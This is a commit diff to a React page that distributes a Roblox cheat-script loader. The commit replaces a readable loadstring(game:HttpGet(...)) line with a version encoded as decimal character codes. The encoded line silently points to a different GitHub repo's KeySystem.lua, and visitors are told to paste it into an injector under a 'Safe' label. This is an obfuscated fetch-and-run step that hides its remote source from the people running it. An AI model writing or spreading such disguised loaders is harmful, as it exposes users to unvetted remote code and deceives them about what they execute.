

Before and after one commit to oicx7154/Re.io, a React (Vite) app: page / in a window 1280 px wide. Shown: the part 2168-2978 px from the top of the page, without its empty margins (0-1030 px from the left). Built offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update ScriptSection.tsx

```diff
--- a/src/components/ScriptSection.tsx
+++ b/src/components/ScriptSection.tsx
@@ -4,7 +4,7 @@ import { Copy, Check, Terminal } from 'lucide-react';
 
 export const ScriptSection = () => {
   const [copied, setCopied] = useState(false);
-  const scriptCode = `loadstring(game:HttpGet("https://raw.githubusercontent.com/LuminaScript/Main/source.lua"))()`;
+  const scriptCode = `loadstring(utf8.char((function() return table.unpack({ 108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,68,67,76,90,72,49,47,77,97,105,110,47,114,101,102,115,47,104,101,97,100,115,47,109,97,105,110,47,75,101,121,83,121,115,116,101,109,46,108,117,97,34,41,41,40,41 }) end)()))()`;
 
   const handleCopy = () => {
     navigator.clipboard.writeText(scriptCode);
@@ -19,9 +19,9 @@ export const ScriptSection = () => {
 
       <div className="container mx-auto px-6 relative z-10">
         <div className="max-w-3xl mx-auto text-center mb-10">
-          <h2 className="text-3xl md:text-4xl font-bold mb-4">Get the Script</h2>
+          <h2 className="text-3xl md:text-4xl font-bold mb-4">获取脚本</h2>
           <p className="text-slate-400">
-            Copy the loader below and execute it in your favorite executor (Solara, Synapse Z, Wave).
+            复制这个脚本然后放进注入器执行
           </p>
         </div>
 
@@ -64,12 +64,12 @@ export const ScriptSection = () => {
                 <code>
                   <span className="text-violet-400">loadstring</span>
                   <span className="text-slate-400">(</span>
-                  <span className="text-cyan-400">game</span>
-                  <span className="text-slate-400">:</span>
-                  <span className="text-yellow-400">HttpGet</span>
-                  <span className="text-slate-400">(</span>
-                  <span className="text-green-400">"https://raw.githubusercontent.com/LuminaScript/Main/source.lua"</span>
-                  <span className="text-slate-400">))()</span>
+                  <span className="text-cyan-400">utf8.char</span>
+                  <span className="text-slate-400">((</span>
+                  <span className="text-yellow-400">function()</span>
+                  <span className="text-slate-400">return table.unpack(</span>
+                  <span className="text-green-400">"{108,111,97,100,115,116,114,105,110,103,40,103,97,109,101,58,72,116,116,112,71,101,116,40,34,104,116,116,112,115,58,47,47,114,97,119,46,103,105,116,104,117,98,117,115,101,114,99,111,110,116,101,110,116,46,99,111,109,47,68,67,76,90,72,49,47,77,97,105,110,47,114,101,102,115,47,104,101,97,100,115,47,109,97,105,110,47,75,101,121,83,121,115,116,101,109,46,108,117,97,34,41,41,40,41 }"</span>
+                  <span className="text-slate-400">) end)()))()</span>
                 </code>
               </pre>
             </div>
@@ -78,11 +78,11 @@ export const ScriptSection = () => {
           <div className="mt-6 flex justify-center gap-6 text-sm text-slate-500">
              <div className="flex items-center gap-2">
                <Terminal className="w-4 h-4" />
-               <span>Auto-updates enabled</span>
+               <span>自动更新</span>
              </div>
              <div className="flex items-center gap-2">
                <Check className="w-4 h-4" />
-               <span>Safe Execution</span>
+               <span>安全</span>
              </div>
           </div>
         </motion.div>
```
